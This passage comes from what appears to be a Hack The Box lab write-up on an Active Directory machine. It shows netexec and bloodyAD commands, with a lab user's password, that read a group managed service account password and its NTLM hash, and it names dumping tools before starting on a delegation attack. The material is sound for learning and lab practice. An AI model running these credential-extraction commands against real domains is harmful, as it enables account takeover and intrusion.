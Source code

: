 We can accomplish this in a variety of ways:
#### netexec

The easiest would be with `--gmsa` flag in netexec:

```shell
netexec ldap 10.10.11.231 -u tbrady -p '543BOMBOMBUNmanda' -k --gmsa
```

![](Pasted%20image%2020240426004018.png)
#### BloodyAD

And of course, bloodyAD can accomplish this as well:

```shell
bloodyAD -u tbrady -d bloody -p '543BOMBOMBUNmanda' --host 10.10.11.231 get object 'delegator$' --attr msDS-ManagedPassword
```

![](Pasted%20image%2020240426004211.png)
#### gMSADumper and GMSAPasswordReader

We could also use a tool developed in Python for this purpose called [gMSADumper](https://github.com/micahvandeusen/gMSADumper) or opt to upload the [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) `.exe` instead

Any of those tools will result in us obtaining the NTLM hash for the `delegator$` account.
## Final Stretch - Delegation Attack

What follows was the most difficult for me to figure out properly, I needed some hints from the community and I'm still not sure I grasp the entire process, but let's try to go through it together.

I'm very much look forwarding to doing the Kerberos Attacks module on HTB Academy to gain a better understanding of the topic.
### Enumeration

We can see in Bloodhound some information about delegation when we check the `delegator$` account.

![](Pasted%20image%2020240421222950.png)
